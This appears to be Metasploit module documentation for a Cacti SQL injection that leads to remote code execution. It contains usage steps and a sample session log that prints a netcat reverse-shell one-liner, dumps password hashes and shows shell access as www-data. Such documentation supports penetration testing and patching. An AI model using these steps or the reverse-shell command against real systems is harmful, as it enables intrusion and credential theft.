 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Cacti 1.2.12 and before.
An admin can exploit the filter variable within `color.php` to pull arbitrary
values as well as conduct stacked queries. With stacked queries, the
`path_php_binary` value is changed within the settings table to a payload,
and an update is called to  execute the payload.

After calling the payload, the value is reset.  This has to be done from
a new login session as any requests with the already logged in cookie
will timeout.

### Install

As of the writing of this module, Ubuntu's 12.04 repo had cacti as
1.2.10, so a simple `apt-get install cacti` will install a vulnerable
version.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/unix/http/cacti_filter_sqli_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### CREDS

This option will dump usernames and passwords from cacti and database them. Defaults to `true`

## Scenarios

### Cacti 1.2.10 on Ubuntu 12.04

```
*] Processing cacti.rb for ERB directives.
resource (cacti.rb)> use modules/exploits/unix/http/cacti_filter_sqli_rce
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
resource (cacti.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (cacti.rb)> set verbose true
verbose => true
resource (cacti.rb)> set password cacti
password => cacti
resource (cacti.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(unix/http/cacti_filter_sqli_rce) > rcheck
[*] Reloading module...

[+] Version Detected: 1.2.10
[*] 2.2.2.2:80 - The target appears to be vulnerable.
resource (cacti.rb)> run
[+] mkfifo /tmp/ztgx; nc 1.1.1.1 4444 0</tmp/ztgx | /bin/sh >/tmp/ztgx 2>&1; rm /tmp/ztgx
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Grabbing CSRF
[+] CSRF: sid:ed80b7a38bb33740c8dc4de3ef119da44097b00c,1619810688
[*] Attempting login
[*] Dumping creds
[+] Username: admin, Password Hash: $2y$10$jnRjBpTxidVYScvDm5h30.nGgPkxtNFnAxY8Ixq42YHF/anUgq4x.
[+] Username: guest, Password Hash: 43e9a4ab75570f5b
[*] Backing-up path_php_binary value
[+] path_php_binary: /usr/bin/php
[*] Uploading payload
[*] Triggering payload
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:45130) at 2021-04-30 15:24:50 -0400
[*] Cleaning up environment
[*] Grabbing CSRF
[+] CSRF: sid:3ff4f97763dbb9ff9a357003daa6f65d8f296682,1619810709
[*] Attempting login
[*] Resetting DB Value

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux ubuntu2004 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
